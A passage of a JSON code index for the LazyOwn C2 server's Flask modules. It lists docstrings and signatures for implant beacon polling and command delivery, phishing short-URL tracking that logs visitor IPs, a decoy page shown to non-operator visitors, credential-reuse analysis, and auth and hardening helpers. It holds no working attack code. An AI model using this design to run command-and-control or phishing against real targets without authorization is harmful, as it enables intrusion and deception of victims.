instances.", "kind": "class", "line": 407, "name": "AddonValidationError", "signature": "class AddonValidationError(ValueError)"}, {"doc": "Pure validation of an AddonDraft against the schema contract.\n\nThe validator performs no I/O; name collision checks belong to the\nweb layer because they require store state.", "kind": "class", "line": 420, "name": "AddonValidator", "signature": "class AddonValidator"}, {"doc": "Render an AddonDraft as canonical LazyAddon YAML.", "kind": "class", "line": 723, "name": "AddonYamlRenderer", "signature": "class AddonYamlRenderer"}, {"doc": "Path-safe, atomic persistence for addon files.\n\nEvery operation resolves the target path against the addons\ndirectory and re-checks realpath containment before touching the\nfilesystem. Writes go through a temp file plus ``os.replace`` so a\ncrashed request can never leave a partial document behind.", "kind": "class", "line": 808, "name": "AddonStore", "signature": "class AddonStore"}, {"doc": "Collect every value for a repeated form key.\n\nArgs:\n    form: A Mapping that may expose ``getlist`` (Flask MultiDict).\n    key: The field name.\n\nReturns:\n    String values; empty list when absent.", "kind": "function", "line": 1030, "name": "_multi_values", "signature": "def _multi_values(form, key)"}, {"doc": "Return the first value for a form key or an empty string.\n\nArgs:\n    form: The form mapping.\n    key: The field name.", "kind": "function", "line": 1051, "name": "_first_value", "signature": "def _first_value(form, key)"}, {"doc": "Interpret a form value as a boolean.\n\nArgs:\n    value: The raw form string.\n\nReturns:\n    True for ``true``/``1``/``on``/``yes`` (case-insensitive),\n    False otherwise.", "kind": "function", "line": 1062, "name": "_parse_bool", "signature": "def _parse_bool(value)"}, {"doc": "Adapt raw form data into an AddonDraft.\n\nArgs:\n    form: A mapping shaped like ``request.form``. Param rows use\n        indexed keys ``params-<i>-name``, ``params-<i>-type``,\n        ``params-<i>-required``, ``params-<i>-default``, and\n        ``params-<i>-description``.\n\nReturns:\n    The populated draft, ready for validation.", "kind": "function", "line": 1075, "name": "parse_addon_form", "signature": "def parse_addon_form(form)"}, {"doc": "Parse indexed param rows from the form mapping.\n\nArgs:\n    form: The form mapping carrying ``params-<i>-*`` keys.\n\nReturns:\n    ParamSpec instances in index order, skipping rows whose index\n    names are absent.", "kind": "function", "line": 1114, "name": "_parse_param_rows", "signature": "def _parse_param_rows(form)"}, {"doc": "Return the param as a schema-ordered mapping.", "kind": "method", "line": 358, "name": "to_dict", "signature": "def to_dict(self)"}, {"kind": "method", "line": 414, "name": "__init__", "signature": "def __init__(self, issues)"}, {"doc": "Store the draft and configuration used by every check.\n\nArgs:\n    draft: The form state to validate.\n    config: Optional configuration override for tests.", "kind": "method", "line": 427, "name": "__init__", "signature": "def __init__(self, draft, config)"}, {"doc": "Run every rule and return the collected issues.\n\nReturns:\n    A list of ValidationIssue instances, empty when the draft\n    is valid.", "kind": "method", "line": 441, "name": "validate", "signature": "def validate(self)"}, {"doc": "Return True when the draft passes every rule.", "kind": "method", "line": 455, "name": "is_valid", "signature": "def is_valid(self)"}, {"doc": "Validate name, description, author, and version fields.", "kind": "method", "line": 459, "name": "_check_identity", "signature": "def _check_identity(self)"}, {"doc": "Validate os, category, module/install type, and triggers.", "kind": "method", "line": 503, "name": "_check_targeting", "signature": "def _check_targeting(self)"}, {"doc": "Validate the tool block: URLs, paths, and command placeholders.", "kind": "method", "line": 550, "name": "_check_tool", "signature": "def _check_tool(self)"}, {"doc": "Validate the declared parameter rows.", "kind": "method", "line": 601, "name": "_check_params", "signature": "def _check_params(self)"}, {"doc": "Validate every {token} inside a command template.\n\nDouble-brace tokens are rejected explicitly because the CLI\nreplacement engine only honours single braces; nested forms\notherwise survive extraction as valid-looking tokens.\n\nArgs:\n    text: The command template to scan.\n    field: The form field name used in the issue output.\n\nReturns:\n    Issues for unknown or malformed placeholder tokens.", "kind": "method", "line": 674, "name": "_check_placeholders", "signature": "def _check_placeholders(self, text, field)"}, {"doc": "Return True when value is an absolute http(s) URL with a host.", "kind": "method", "line": 714, "name": "_is_valid_repo_url", "signature": "def _is_valid_repo_url(value)"}, {"doc": "Store the configuration used for defaults.\n\nArgs:\n    config: Optional configuration override for tests.", "kind": "method", "line": 726, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Return the YAML document for the draft.\n\nArgs:\n    draft: The validated form state.\n\nReturns:\n    A YAML string ready to be written to ``lazyaddons/<name>.yaml``.", "kind": "method", "line": 734, "name": "render", "signature": "def render(self, draft)"}, {"doc": "Build the schema-ordered document mapping for the draft.\n\nArgs:\n    draft: The validated form state.\n\nReturns:\n    A plain mapping accepted by ``yaml.safe_dump`` and by the\n    CLI loader in ``lazyown.register_yaml_plugin``.", "kind": "method", "line": 752, "name": "to_document", "signature": "def to_document(self, draft)"}, {"doc": "Build the tool block, dropping empty optional fields.", "kind": "method", "line": 782, "name": "_render_tool", "signature": "def _render_tool(self, draft)"}, {"doc": "Configure the store.\n\nArgs:\n    config: Optional configuration override for tests.\n    base_dir: Optional absolute or relative addons directory.\n        Defaults to ``lazyaddons`` below the current directory.", "kind": "method", "line": 817, "name": "__init__", "signature": "def __init__(self, config, base_dir)"}, {"doc": "Return the safe absolute path for a newly created addon name.\n\nArgs:\n    name: The addon name (without extension).\n\nReturns:\n    The resolved file path inside the addons directory.\n\nRaises:\n    AddonValidationError: When the name is not whitelisted or\n        the resolved path escapes the addons directory.", "kind": "method", "line": 832, "name": "resolve_path", "signature": "def resolve_path(self, name)"}, {"doc": "Return the safe absolute path for an existing addon file.\n\nPre-existing addons predate the creation whitelist and may use\nuppercase letters, dots, or hyphens (for example\n``AdaptixC2.yaml`` or ``copy-fail-CVE-2026-31431.yaml``).\nLookups therefore validate against the looser filename pattern\nwhile keeping the same traversal and containment guarantees.\n\nArgs:\n    name: The addon file stem (without extension).\n\nReturns:\n    The resolved file path inside the addons directory.\n\nRaises:\n    AddonValidationError: When the name contains path\n        separators, traversal sequences, or escapes the addons\n        directory.", "kind": "method", "line": 847, "name": "resolve_existing_path", "signature": "def resolve_existing_path(self, name)"}, {"doc": "Build and guard a target path for a validated name.\n\nArgs:\n    name: The addon file stem (without extension).\n    pattern: The pattern the name must satisfy.\n\nReturns:\n    The resolved, containment-checked file path.\n\nRaises:\n    AddonValidationError: When the name fails the pattern or\n        the resolved path escapes the addons directory.", "kind": "method", "line": 869, "name": "_resolve_target", "signature": "def _resolve_target(self, name, pattern)"}, {"doc": "Return True when an addon file already exists for the name.\n\nArgs:\n    name: The addon name to probe.", "kind": "method", "line": 891, "name": "exists", "signature": "def exists(self, name)"}, {"doc": "Persist the YAML document atomically.\n\nThe temp file is created with the store file mode from the first\nbyte, so no reader can ever observe a permissive partial document.\nThe write is flushed and fsynced before ``os.replace`` promotes it\ninto place, and any failure removes the temp file.\n\nArgs:\n    name: The addon name (without extension).\n    yaml_text: The rendered YAML document.\n\nReturns:\n    The written file path.\n\nRaises:\n    AddonValidationError: When the name is unsafe.\n    OSError: When the write fails.", "kind": "method", "line": 902, "name": "save", "signature": "def save(self, name, yaml_text)"}, {"doc": "Write ``text`` to ``target`` through a securely created temp file.\n\nArgs:\n    target: The final file path inside the addons directory.\n    text: The content to persist.\n\nRaises:\n    OSError: When the temp file cannot be created, written, or\n        promoted.", "kind": "method", "line": 926, "name": "_atomic_write", "signature": "def _atomic_write(self, target, text)"}, {"doc": "Return the parsed addon document for a name.\n\nArgs:\n    name: The addon name (without extension).\n\nReturns:\n    The parsed YAML mapping.\n\nRaises:\n    AddonValidationError: When the name is unsafe.\n    FileNotFoundError: When the addon does not exist.\n    yaml.YAMLError: When the file is not valid YAML.\n    ValueError: When the document is not a mapping.", "kind": "method", "line": 956, "name": "load", "signature": "def load(self, name)"}, {"doc": "Delete the addon file for a name.\n\nArgs:\n    name: The addon name (without extension).\n\nReturns:\n    True when the file was removed, False when it did not exist.", "kind": "method", "line": 979, "name": "delete", "signature": "def delete(self, name)"}, {"doc": "Return summary dicts for every parseable addon.\n\nReturns:\n    A list sorted by display name with keys ``name``\n    (declared YAML name), ``filename`` (file stem used by the\n    view and delete routes), ``description``, ``category``,\n    ``author``, ``os``, and ``enabled``. Broken files are\n    skipped so the dashboard keeps working.", "kind": "method", "line": 995, "name": "list_all", "signature": "def list_all(self)"}]}, {"doc": "Flask application factory for the LazyOwn C2 server.  Consolidates app creation, security policy initialisation, extension wiring, and blueprint registration. Call :func:`create_app` to get a fully-wired :class:`Flask` instance instead of relying on the monolithic ``lazyc2.py`` module-level globals.  Usage::  from lazyc2.app_factory import create_app app = create_app() app.run()", "id": "lazyc2/app_factory.py", "kind": "module", "label": "app_factory.py", "language": "py", "sha256": "0cfb9811af3a9300", "symbol_count": 9, "symbols": [{"doc": "Load ``payload.json`` and return its contents.", "kind": "function", "line": 33, "name": "_load_payload_config", "signature": "def _load_payload_config()"}, {"doc": "Build the tenant-scoped API key store from payload configuration.\n\nArgs:\n    payload: ``payload.json`` contents. ``api_keys_path`` overrides\n        the default store location when present.\n\nReturns:\n    A configured :class:`core.api_authz.ApiKeyStore`.", "kind": "function", "line": 42, "name": "_build_api_key_store", "signature": "def _build_api_key_store(payload)"}, {"doc": "Resolve the Flask secret key from env or disk.", "kind": "function", "line": 61, "name": "_load_or_create_secret_key", "signature": "def _load_or_create_secret_key(sessions_dir)"}, {"doc": "Build a simple namespace-style config object from payload settings.", "kind": "function", "line": 75, "name": "_make_security_config", "signature": "def _make_security_config(payload)"}, {"doc": "Create and return a fully configured C2 Flask application.\n\nReturns:\n    A :class:`Flask` instance ready to run or serve via WSGI.", "kind": "function", "line": 89, "name": "create_app", "signature": "def create_app()"}, {"kind": "function", "line": 152, "name": "_handle_404", "signature": "def _handle_404(_error)"}, {"kind": "function", "line": 156, "name": "_handle_405", "signature": "def _handle_405(_error)"}, {"kind": "function", "line": 160, "name": "_handle_exception", "signature": "def _handle_exception(error)"}, {"kind": "function", "line": 167, "name": "_add_security_headers", "signature": "def _add_security_headers(response)"}]}, {"doc": "Flask Blueprints for lazydown C2.  Each blueprint owns a domain area of the C2 web interface. Registered in :func:`lazyc2.app_factory.create_app`.", "id": "lazyc2/blueprints/__init__.py", "kind": "module", "label": "__init__.py", "language": "py", "sha256": "35186217e47f84c1", "symbol_count": 0, "symbols": []}, {"doc": "LazyAddon creator blueprint for the C2 dashboard.  Exposes the addon lifecycle under ``/addons``: a list page, the guided creation form (GET and POST), a rendered YAML preview page, and a delete endpoint. All mutating routes enforce the per-session CSRF token issued on the form page.  Design (SOLID): - Single Responsibility: this module only adapts HTTP requests to the ``lazyc2.addon_creator`` contract and templates - Open/Closed: new pages reuse the same store and policy helpers - Liskov: every route returns plain Flask responses like the rest of the dashboard - Interface Segregation: small helpers, no shared mutable globals - Dependency Inversion: depends on the addon creator contract, never on the ``lazyc2.py`` monolith internals", "id": "lazyc2/blueprints/addons.py", "kind": "module", "label": "addons.py", "language": "py", "sha256": "41f4fcb7835db8ae", "symbol_count": 14, "symbols": [{"doc": "Configure the blueprint state before registration.\n\nArgs:\n    base_dir: Optional addons directory override. When omitted the\n        value stored on the app config under ``LAZYOWN_ADDONS_DIR``\n        or the contract default is used.", "kind": "function", "line": 66, "name": "init_addons_bp", "signature": "def init_addons_bp(base_dir)"}, {"doc": "Return an AddonStore bound to the configured addons directory.", "kind": "function", "line": 78, "name": "_store", "signature": "def _store()"}, {"doc": "Return the app-scoped CSRF policy for addon mutation routes.", "kind": "function", "line": 84, "name": "_csrf_policy", "signature": "def _csrf_policy()"}, {"doc": "Decorate a view so mutating requests must echo the CSRF token.\n\nSafe methods pass through untouched; unsafe methods must present a\ntoken bound to the stable client cookie issued on the form page.\n\nArgs:\n    view: The Flask view function to wrap.\n\nReturns:\n    The wrapped view returning 403 JSON when the token is invalid.", "kind": "function", "line": 93, "name": "csrf_protect", "signature": "def csrf_protect(view)"}, {"doc": "Bind a CSRF token to a stable client cookie and expose it.\n\nThe cookie carries a random client identifier that never changes\nbetween requests, unlike the Flask session cookie which is re-signed\nwhenever flash messages are consumed. The token itself stays in the\npolicy store and travels inside the form.\n\nArgs:\n    response: The outgoing response that receives the cookie.\n    policy: The policy issuing the token.\n\nReturns:\n    The token string to embed in the form.", "kind": "function", "line": 117, "name": "_issue_csrf", "signature": "def _issue_csrf(response, policy)"}, {"doc": "Group validation issues by field for template rendering.\n\nArgs:\n    issues: The flat list of ValidationIssue instances.\n\nReturns:\n    A mapping of field name to message list.", "kind": "function", "line": 146, "name": "_issue_map", "signature": "def _issue_map(issues)"}, {"doc": "Build the template context shared by the form renders.\n\nArgs:\n    draft: The current form state.\n    issues: Validation findings to surface per field.\n\nReturns:\n    The context dict consumed by ``addon_creator.html``.", "kind": "function", "line": 161, "name": "_form_context", "signature": "def _form_context(draft, issues)"}, {"doc": "Render the creation form with a fresh CSRF token.\n\nArgs:\n    draft: The current form state.\n    issues: Validation findings to surface per field.\n\nReturns:\n    The rendered form response with the CSRF cookie set.", "kind": "function", "line": 190, "name": "_render_create", "signature": "def _render_create(draft, issues)"}, {"doc": "Convert a persisted document back into a renderable draft.\n\nArgs:\n    document: The parsed addon mapping.\n\nReturns:\n    A draft whose YAML rendering is canonical.", "kind": "function", "line": 213, "name": "_draft_from_document", "signature": "def _draft_from_document(document)"}, {"doc": "Render the addon dashboard list page with a fresh CSRF token.", "kind": "function", "line": 260, "name": "list_addons", "signature": "def list_addons()"}, {"doc": "Render the creation form and persist valid addon submissions.\n\nReturns:\n    On GET the guided form. On POST either the re-rendered form\n    with per-field errors or a redirect to the YAML preview.", "kind": "function", "line": 274, "name": "create_addon", "signature": "def create_addon()"}, {"doc": "Render the persisted YAML document for an addon.\n\nArgs:\n    name: The addon name to preview.\n\nReturns:\n    The preview page or a redirect to the list when missing.", "kind": "function", "line": 317, "name": "view_addon", "signature": "def view_addon(name)"}, {"doc": "Delete an addon file.\n\nArgs:\n    name: The addon name to remove.\n\nReturns:\n    A redirect to the list page with a status flash.", "kind": "function", "line": 341, "name": "delete_addon", "signature": "def delete_addon(name)"}, {"kind": "function", "line": 107, "name": "wrapper", "signature": "def wrapper()"}]}, {"doc": "API blueprint for the LazyOwn C2 server.  Provides REST endpoints for health checks, command execution, output retrieval, and dashboard data. Registered under the ``/api`` prefix.  Every endpoint that mutates state or reads sensitive data requires tenant-bound API authorization via ``core.api_authz.require_api_auth``.", "id": "lazyc2/blueprints/api.py", "kind": "module", "label": "api.py", "language": "py", "sha256": "4b04c2d701385cf0", "symbol_count": 10, "symbols": [{"doc": "Configuration for the health-check subsystem.", "kind": "class", "line": 25, "name": "HealthConfig", "signature": "class HealthConfig"}, {"doc": "Collect health metrics for all critical subsystems.\n\nArgs:\n    config: Optional health-check configuration.\n\nReturns:\n    A dict with ``status``, ``timestamp``, ``uptime``, and\n    per-component status entries.", "kind": "function", "line": 36, "name": "_health_status", "signature": "def _health_status(config)"}, {"doc": "Check whether a listener instance is alive.", "kind": "function", "line": 99, "name": "_listener_alive", "signature": "def _listener_alive(listener)"}, {"doc": "Health-check endpoint returning subsystem status.\n\nReturns:\n    200 with JSON containing status of database, listeners,\n    beacons, uptime, and an overall ``status`` field\n    (``healthy``, ``degraded``, or ``unhealthy``).", "kind": "function", "line": 108, "name": "health", "signature": "def health()"}, {"doc": "Lightweight liveness probe.\n\nReturns:\n    200 with ``{\"status\": \"ok\"}``.", "kind": "function", "line": 120, "name": "ping", "signature": "def ping()"}, {"doc": "Protect a view with the app-scoped API key store.\n\nResolves the store from the Flask app config at request time so the\nroute stays decoupled from application construction order.\n\nArgs:\n    view: The Flask view function to protect.\n\nReturns:\n    The view wrapped by :func:`core.api_authz.require_api_auth`.", "kind": "function", "line": 129, "name": "require_api_auth_with_store", "signature": "def require_api_auth_with_store(view)"}, {"doc": "Health-check scoped to the current authenticated tenant.\n\nRequires a valid API key bound to a tenant. Returns tenant-scoped\nmetrics in addition to the standard health data.\n\nReturns:\n    200 with health data plus ``tenant_id`` and tenant-scoped\n    beacon/listener counts. 401 when the API key is missing or\n    invalid, 403 when the key is not tenant-scoped.", "kind": "function", "line": 157, "name": "health_tenant", "signature": "def health_tenant()"}, {"doc": "Return build-time defaults alongside live payload values.\n\nMirrors the ``defaults show`` CLI command for the web GUI.\n\nReturns:\n    200 with ``{\"defaults\": {...}, \"live\": {...}}``.", "kind": "function", "line": 182, "name": "get_defaults", "signature": "def get_defaults()"}, {"doc": "Persist a per-engagement override for a build default.\n\nMirrors ``defaults set <name> <value>`` for the web GUI. Only\n``wordlist``, ``lport`` and ``rport`` are overridable, and values\nland in ``payload.json`` through the canonical writer; the TOML\nfile is never rewritten.\n\nReturns:\n    200 with the stored ``{name, value}``. 400 on bad input,\n    401/403 on auth failures.", "kind": "function", "line": 211, "name": "set_default", "signature": "def set_default()"}, {"kind": "function", "line": 146, "name": "guarded", "signature": "def guarded()"}]}, {"doc": "Versioned REST API (``/api/v1``) for the LazyOwn C2 server.  Programmatic interface for SIEM/SOAR integration, custom dashboards, and CI/CD pipelines. Every endpoint except ``/health`` requires a tenant-bound API key (``X-API-Key`` header, see ``core.api_authz``).  Endpoints:  - ``GET /api/v1/health`` — public service status. - ``GET /api/v1/targets`` — hosts in scope from the campaign database. - ``GET /api/v1/results`` — beacon task results, optionally per client. - ``GET /api/v1/campaigns`` — autonomous campaign/objective status. - ``GET /api/v1/webhooks`` — registered result webhooks. - ``POST /api/v1/webhooks`` — register a result webhook URL. - ``DELETE /api/v1/webhooks/<index>`` — remove a registered webhook.", "id": "lazyc2/blueprints/api_v1.py", "kind": "module", "label": "api_v1.py", "language": "py", "sha256": "28b211453708703c", "symbol_count": 12, "symbols": [{"doc": "Return the sessions directory configured on the Flask app.", "kind": "function", "line": 38, "name": "_sessions_dir", "signature": "def _sessions_dir()"}, {"doc": "Return a campaign database handle, or ``None`` when unavailable.", "kind": "function", "line": 43, "name": "_db", "signature": "def _db()"}, {"kind": "function", "line": 60, "name": "_error", "signature": "def _error(message, status)"}, {"doc": "Public service status (same payload as ``/api/health``).\n\nReturns:\n    200 with subsystem status, uptime, and an overall status field.", "kind": "function", "line": 65, "name": "health", "signature": "def health()"}, {"doc": "List in-scope hosts from the campaign database.\n\nQuery args:\n    workspace: Workspace name (default ``\"default\"``).\n\nReturns:\n    200 with the workspace name and its hosts (each with services).\n    503 when the campaign database is unavailable.", "kind": "function", "line": 76, "name": "targets", "signature": "def targets()"}, {"doc": "Return beacon task results.\n\nQuery args:\n    client_id: When given, only that beacon's history. Otherwise the\n        latest record per known beacon plus the client id list.\n\nReturns:\n    200 with records (oldest first per beacon).", "kind": "function", "line": 108, "name": "results", "signature": "def results()"}, {"doc": "Report autonomous campaign status from operational state files.\n\nReturns:\n    200 with the current kill-chain phase (world model, when present)\n    and pending objective counts. State files are best-effort: missing\n    files yield empty sections, never errors.", "kind": "function", "line": 141, "name": "campaigns", "signature": "def campaigns()"}, {"kind": "function", "line": 166, "name": "_webhooks_path", "signature": "def _webhooks_path()"}, {"kind": "function", "line": 170, "name": "_read_webhooks", "signature": "def _read_webhooks()"}, {"doc": "List registered result webhooks.\n\nReturns:\n    200 with the webhook list (URL + event filter each).", "kind": "function", "line": 180, "name": "webhooks_list", "signature": "def webhooks_list()"}, {"doc": "Register a result webhook URL.\n\nBody (JSON): ``{\"url\": \"https://...\", \"events\": [\"results\"]}``.\nThe URL must be http(s); anything else is rejected.\n\nReturns:\n    201 with the stored entry and its index. 400 on bad input.", "kind": "function", "line": 191, "name": "webhooks_register", "signature": "def webhooks_register()"}, {"doc": "Remove a registered webhook by index.\n\nReturns:\n    200 with the removed entry. 404 when the index does not exist.", "kind": "function", "line": 228, "name": "webhooks_delete", "signature": "def webhooks_delete(index)"}]}, {"doc": "Authentication and authorisation blueprint for the LazyOwn C2 server.  Login, logout, registration, MFA setup/verification, profile, and admin user/tenant management routes. Registered from within ``lazyc2.py`` so that ``url_for('index')`` and other lazyc2.py routes are available.", "id": "lazyc2/blueprints/auth.py", "kind": "module", "label": "auth.py", "language": "py", "sha256": "8ed1461c835874a1", "symbol_count": 19, "symbols": [{"doc": "Check if RBAC is available from app config.", "kind": "function", "line": 51, "name": "_rbac_available", "signature": "def _rbac_available()"}, {"doc": "Resolve the RBAC store from the C2 monolith.", "kind": "function", "line": 56, "name": "_get_rbac_store", "signature": "def _get_rbac_store()"}, {"doc": "Resolve the RBAC user object for a Flask-Login user.", "kind": "function", "line": 68, "name": "_get_rbac_user_obj", "signature": "def _get_rbac_user_obj(flask_user)"}, {"doc": "Resolve the tenant manager from the C2 monolith.", "kind": "function", "line": 78, "name": "_get_tenant_manager", "signature": "def _get_tenant_manager()"}, {"kind": "function", "line": 92, "name": "register", "signature": "def register()"}, {"kind": "function", "line": 151, "name": "login", "signature": "def login()"}, {"kind": "function", "line": 196, "name": "mfa_setup", "signature": "def mfa_setup()"}, {"kind": "function", "line": 269, "name": "mfa_qr", "signature": "def mfa_qr(username)"}, {"kind": "function", "line": 291, "name": "mfa_verify", "signature": "def mfa_verify()"}, {"kind": "function", "line": 335, "name": "profile", "signature": "def profile()"}, {"kind": "function", "line": 360, "name": "logout", "signature": "def logout()"}, {"kind": "function", "line": 379, "name": "admin_users", "signature": "def admin_users()"}, {"kind": "function", "line": 396, "name": "admin_set_role", "signature": "def admin_set_role(user_id)"}, {"kind": "function", "line": 418, "name": "admin_reset_mfa", "signature": "def admin_reset_mfa(user_id)"}, {"kind": "function", "line": 430, "name": "admin_delete_user", "signature": "def admin_delete_user(user_id)"}, {"kind": "function", "line": 448, "name": "admin_tenants", "signature": "def admin_tenants()"}, {"kind": "function", "line": 468, "name": "admin_create_tenant", "signature": "def admin_create_tenant()"}, {"kind": "function", "line": 486, "name": "admin_switch_tenant", "signature": "def admin_switch_tenant(tenant_id)"}, {"doc": "Return a pass-through decorator when RBAC is unavailable.\n\nArgs:\n    role: The required role name, ignored in the fallback.\n\nReturns:\n    A decorator that returns the wrapped view unchanged.", "kind": "function", "line": 33, "name": "require_role", "signature": "def require_role(role)"}]}, {"doc": "Beacon communication blueprint for the LazyOwn C2 server.  Handles implant polling, command delivery, result collection, file transfer, and beacon lifecycle events. Integrates the conditional hooks engine so operator-defined automation rules fire on beacon connection/disconnection.  Registered from ``lazyc2.py`` without a prefix so the existing malleable routes (``/command``, ``/upload``, etc.) stay at their original paths.", "id": "lazyc2/blueprints/beacon.py", "kind": "module", "label": "beacon.py", "language": "py", "sha256": "650a1068274ba0e6", "symbol_count": 7, "symbols": [{"doc": "Wire the blueprint to the C2 monolith's shared state.\n\nArgs:\n    commands: Shared command queue dict.\n    results: Shared results dict.\n    commands_history: Shared command history dict.\n    connected_clients: Shared connected clients set.\n    encrypt_fn: AES encrypt callable.\n    decrypt_fn: AES decrypt callable.\n    config: LazyOwn Config instance.\n    sessions_dir: Path to sessions directory.\n    route_malleable: Malleable C2 route prefix.", "kind": "function", "line": 35, "name": "init_beacon_bp", "signature": "def init_beacon_bp(commands, results, commands_history, connected_clients, encrypt_fn, decrypt_fn, config, sessions_dir, route_malleable)"}, {"doc": "Fire conditional hooks for a beacon lifecycle event.", "kind": "function", "line": 72, "name": "_fire_hooks", "signature": "def _fire_hooks(event, context)"}, {"doc": "Trigger credential reuse analysis in background.", "kind": "function", "line": 91, "name": "_trigger_cred_reuse", "signature": "def _trigger_cred_reuse(context)"}, {"doc": "Implant polls for the next encrypted command.", "kind": "function", "line": 111, "name": "send_command", "signature": "def send_command(client_id)"}, {"doc": "Implant reports command output.", "kind": "function", "line": 131, "name": "receive_result", "signature": "def receive_result(client_id)"}, {"doc": "Operator queues a command for a connected implant.", "kind": "function", "line": 245, "name": "issue_command", "signature": "def issue_command()"}, {"kind": "function", "line": 97, "name": "_run", "signature": "def _run()"}]}, {"doc": "Operations blueprint — tasks, CVEs, notes, and event management.  CRUD endpoints for the C2 operator's daily workflow. Registered under no prefix in :func:`lazyc2.app_factory.create_app`.", "id": "lazyc2/blueprints/operations.py", "kind": "module", "label": "operations.py", "language": "py", "sha256": "e23b803b1b4238de", "symbol_count": 13, "symbols": [{"doc": "View a single task by ID.", "kind": "function", "line": 33, "name": "task_detail", "signature": "def task_detail(task_id)"}, {"doc": "Return all tasks as JSON.", "kind": "function", "line": 48, "name": "get_tasks", "signature": "def get_tasks()"}, {"doc": "Render the tasks list page.", "kind": "function", "line": 57, "name": "tasks", "signature": "def tasks()"}, {"doc": "Edit an existing task.", "kind": "function", "line": 66, "name": "edit_task", "signature": "def edit_task(task_id)"}, {"doc": "List all CVEs or create a new one.", "kind": "function", "line": 92, "name": "cves", "signature": "def cves()"}, {"doc": "View a single CVE by ID.", "kind": "function", "line": 117, "name": "cve_detail", "signature": "def cve_detail(cve_id)"}, {"doc": "Edit an existing CVE entry.", "kind": "function", "line": 132, "name": "edit_cve", "signature": "def edit_cve(cve_id)"}, {"doc": "View or edit the operator notes.", "kind": "function", "line": 158, "name": "edit_notes", "signature": "def edit_notes()"}, {"doc": "Return notes as JSON.", "kind": "function", "line": 173, "name": "get_notes", "signature": "def get_notes()"}, {"doc": "Render the notes view page.", "kind": "function", "line": 182, "name": "view_note", "signature": "def view_note()"}, {"doc": "Return event configuration as JSON.", "kind": "function", "line": 192, "name": "event_config", "signature": "def event_config()"}, {"doc": "View or update event configuration.", "kind": "function", "line": 198, "name": "event_config_view", "signature": "def event_config_view()"}, {"doc": "Render the events page.", "kind": "function", "line": 218, "name": "events", "signature": "def events()"}]}, {"doc": "Phishing blueprint for the LazyOwn C2 server.  Short URL management, phishing campaign tracking, behavioural logging, and file-serving endpoints.  Registered under no prefix (the short URL redirect endpoint must live at ``/`` so it can capture arbitrary paths).", "id": "lazyc2/blueprints/phishing.py", "kind": "module", "label": "phishing.py", "language": "py", "sha256": "222cf148cbd6da05", "symbol_count": 7, "symbols": [{"doc": "Read a value from the Flask app config (set by app factory).", "kind": "function", "line": 43, "name": "_get_config", "signature": "def _get_config(key, default)"}, {"doc": "Create one or more short URLs for a single original URL.\n\nRequest JSON:\n    ``original_url`` (str, required): Target URL or file path.\n    ``custom_short_url`` (str, optional): Custom short code.\n    ``count`` (int, optional): Number of short URLs to create\n        (default 1).\n\nReturns:\n    200 with the list of generated short codes, or 400 on\n    validation failure.", "kind": "function", "line": 49, "name": "create_short_url", "signature": "def create_short_url()"}, {"doc": "Serve a tracking page and log behavioural data.\n\nLogs client IP, user-agent, and optional behaviour data to the\nC2 database. Renders ``tracking_page.html`` for real-user\nsimulation.", "kind": "function", "line": 89, "name": "track_interaction", "signature": "def track_interaction(short_url)"}, {"doc": "Update an existing short URL's target or active status.\n\nRequest JSON (at least one):\n    ``original_url`` (str): New target URL.\n    ``active`` (bool): Enable or disable the short URL.", "kind": "function", "line": 125, "name": "update_short_url", "signature": "def update_short_url(short_url)"}, {"doc": "Resolve a short URL and redirect (or serve a local file).\n\nFile targets are resolved through ``resolve_contained_file_path``\nso only files inside the sessions directory are served; anything\nelse fails closed with 404. Remote targets issue an HTTP redirect.", "kind": "function", "line": 151, "name": "redirect_to_file", "signature": "def redirect_to_file(short_url)"}, {"doc": "Serve nmap HTML report assets from the sessions directory.\n\nPath validation is enforced through :class:`SessionPathResolver`.", "kind": "function", "line": 174, "name": "webserver_report", "signature": "def webserver_report(filename)"}, {"doc": "Serve a session file by name with path-traversal protection.\n\nEnforces strict basename containment, secure filename sanitisation,\nrealpath containment, and an extension allowlist.", "kind": "function", "line": 192, "name": "download_files", "signature": "def download_files(filename)"}]}, {"doc": "Session-based authentication gate for operator dashboard blueprints.  Some dashboard blueprints (tasks, addons, notes) were previously protected only by the decoy IP check, so any request arriving from the operator IP could read operator data without a login session. This module closes that gap with a single reusable guard: every route on a guarded blueprint requires an authenticated Flask-Login session, and unauthenticated requests are redirected to the login page.  Implant-facing blueprints (beacons, phishing redirects, health APIs) must NOT use this gate.", "id": "lazyc2/blueprints/session_auth.py", "kind": "module", "label": "session_auth.py", "language": "py", "sha256": "d9868d0f4460f4dc", "symbol_count": 2, "symbols": [{"doc": "Register a ``before_request`` guard on a blueprint.\n\nAll routes on the guarded blueprint serve operator-only content, so\nthe guard treats every method the same way. The per-view decoy and\nCSRF layers keep running after the session check.\n\nArgs:\n    blueprint: The Flask blueprint to protect.\n    login_endpoint: Endpoint name the login redirect targets.", "kind": "function", "line": 20, "name": "require_operator_session", "signature": "def require_operator_session(blueprint, login_endpoint)"}, {"kind": "function", "line": 36, "name": "_guard", "signature": "def _guard()"}]}, {"doc": "Shared C2 extension modules.  Each module is a self-contained set of helpers that the monolithic ``lazyc2.py`` and/or individual Flask blueprints import. Call the module-level ``configure()`` function during app initialisation to set paths.", "id": "lazyc2/extensions/__init__.py", "kind": "module", "label": "__init__.py", "language": "py", "sha256": "4570ea9c1fadb97e", "symbol_count": 0, "symbols": []}, {"doc": "Decoy / honeypot page for unauthenticated visitors.  When a request comes from an IP that is not the operator's lhost the C2 renders a decoy HTML page instead of the real interface.", "id": "lazyc2/extensions/decoy.py", "kind": "module", "label": "decoy.py", "language": "py", "sha256": "bb29ebed657916ed", "symbol_count": 1, "symbols": [{"doc": "Return a decoy page when the client IP is not the operator host.\n\nReads ``lhost`` from ``current_app.config`` and compares it\nagainst ``request.remote_addr``. Returns the rendered ``decoy.html``\ntemplate when they differ, or ``None`` when the client is allowed.\n\nReturns:\n    Rendered decoy template string or ``None``.", "kind": "function", "line": 12, "name": "decoy_response", "signature": "def decoy_response()"}]}, {"doc": "Short URL management utilities for the C2 phishing module.  Provides load/save/validation helpers for short URL redirection and phishing campaign tracking. Intended for internal use by :mod:`lazyc2.blueprints.phishing`.", "id": "lazyc2/extensions/short_urls.py", "kind": "module", "label": "short_urls.py", "language": "py", "sha256": "10f1378a0da17b94", "symbol_count": 5, "symbols": [{"doc": "Set the phishing directory where short_urls.json lives.\n\nArgs:\n    sessions_phishing_dir: Absolute or relative path to the phishing\n        session directory.", "kind": "function", "line": 21, "name": "configure", "signature": "def configure(sessions_phishing_dir)"}, {"doc": "Load short URLs from JSON file, 